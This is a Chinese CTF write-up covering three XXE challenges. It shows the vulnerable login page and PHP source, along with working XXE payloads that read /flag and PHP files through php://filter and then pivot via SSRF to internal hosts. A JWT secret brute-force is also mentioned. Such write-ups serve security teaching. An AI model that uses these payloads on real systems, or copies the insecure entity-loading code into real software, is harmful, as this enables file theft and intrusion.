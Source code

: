 ```yaml
---
title: CTF XXE漏洞攻击
tags:
  - CTF-WEB
categories:
  - CTF-WEB
date: 2020-05-07 15:58:00
---
```

# Fake XML Cookbook
F12 查看源码：

```php
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```
可以看到传输的数据是xml类型
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200507154531604.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)


payload打一下：

```php
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE any [
<!ENTITY xxe SYSTEM "file:///flag" >]>
<user><username>&xxe;</username><password>111</password></user>
```
# True XML Cookbook
首先尝试直接读/flag文件，回显了报错信息，但是发现可以读doLogin文件：

```php
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any[
  <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/doLogin.php">
]>
<user><username>&file;</username><password>1</password></user>
```
得源码：

```php
//doLogin.php
<?php\n/**
* autor: c0ny1\n* date: 2018-2-7
*/

$USERNAME = 'admin'; //\xe8\xb4\xa6\xe5\x8f\xb7
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //\xe5\xaf\x86\xe7\xa0\x81
$result = null;
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```
最终是利用ssrf读内网文件：

```php
// /etc/hosts
127.0.0.1	localhost
::1		localhost ip6-localhost ip6-loopback
fe00::0		ip6-localnet
ff00::0		ip6-mcastprefix
ff02::1		ip6-allnodes
ff02::2		ip6-allrouters
173.17.80.9		osrc
```
内网ip，173.17.80.9

```powershell
// /proc/net/arp
IP address       HW type     Flags       HW address            Mask     Device
173.17.80.2      0x1         0x2         02:42:ad:11:50:02     *        eth0
173.17.80.12     0x1         0x2         02:42:ad:11:50:0c     *        eth0
```

最后试了173.17.80.10可以得flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200302112638332.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L291YmFzYW5nZGFkYWRh,size_16,color_FFFFFF,t_70)
# ISCC  未知的风险-1
前面是jwt爆破得到秘钥123456伪造user用户就不说了，之后是一个登录框，和上面两个题目差不多，doLogin()方法相同，题目根目录下有flag.php。用xxe读取文件

```php
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any[
  <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php">
]>
<user><username>&file;</username><password>1</password></user>
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200507155154905.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)
>读取/var/www/html是因为这是Apache默认根目录
>
base64解码即可
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200507155712628.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)
# 参考
[某个(忘了)比赛的两道XML](https://blog.csdn.net/oubasangdadada/article/details/104608104)
